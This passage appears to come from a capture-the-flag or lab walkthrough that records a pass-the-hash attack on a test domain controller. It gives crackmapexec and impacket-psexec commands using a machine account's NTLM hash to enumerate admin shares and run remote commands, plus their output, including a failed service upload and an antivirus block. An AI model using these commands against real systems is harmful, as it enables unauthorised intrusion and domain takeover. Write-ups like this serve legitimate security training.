 `crackmapexec smb 192.168.56.128 -u 'FileServer$' -H 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559' --shares`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.128  445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
SMB         192.168.56.128  445    DC01             [*] Enumerated shares
SMB         192.168.56.128  445    DC01             Share           Permissions     Remark
SMB         192.168.56.128  445    DC01             -----           -----------     ------
SMB         192.168.56.128  445    DC01             ADMIN$          READ,WRITE ←     Remote Admin
SMB         192.168.56.128  445    DC01             backup                          
SMB         192.168.56.128  445    DC01             C$              READ,WRITE ←     Default share
SMB         192.168.56.128  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.128  445    DC01             NETLOGON        READ,WRITE      Logon server share 
SMB         192.168.56.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         192.168.56.128  445    DC01             Users
```

`crackmapexec smb 192.168.56.128 -u 'FileServer$' -H 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559' -x "whoami"`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.128  445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
SMB         192.168.56.128  445    DC01             [+] Executed command via wmiexec ←
SMB         192.168.56.128  445    DC01             soupedecode\fileserver$ ←
```

<❌ Failed Step>

`impacket-psexec 'FileServer$@192.168.56.128' -hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.56.128.....
[*] Found writable share ADMIN$ ←
[*] Uploading file IKFHISBg.exe
[*] Opening SVCManager on 192.168.56.128.....
[*] Creating service zalu on 192.168.56.128.....
[*] Starting service zalu.....
[*] Opening SVCManager on 192.168.56.128.....
[-] Error performing the uninstallation, cleaning up ←
```

</❌ Failed Step>

`crackmapexec smb 192.168.56.128 -u 'FileServer$' -H 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559' -X 'powershell -Command "Get-ADComputer -Identity ''FileServer$'' -Properties *"'`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.128  445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
SMB         192.168.56.128  445    DC01             [+] Executed command via wmiexec
SMB         192.168.56.128  445    DC01             Invoke-Expression : At line:1 char:1
SMB         192.168.56.128  445    DC01             + [Net.ServicePointManager]::ServerCertificateValidationCallback = {$tr ...
SMB         192.168.56.128  445    DC01             + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SMB         192.168.56.128  445    DC01             This script contains malicious content and has been blocked by your antivirus software. ←
```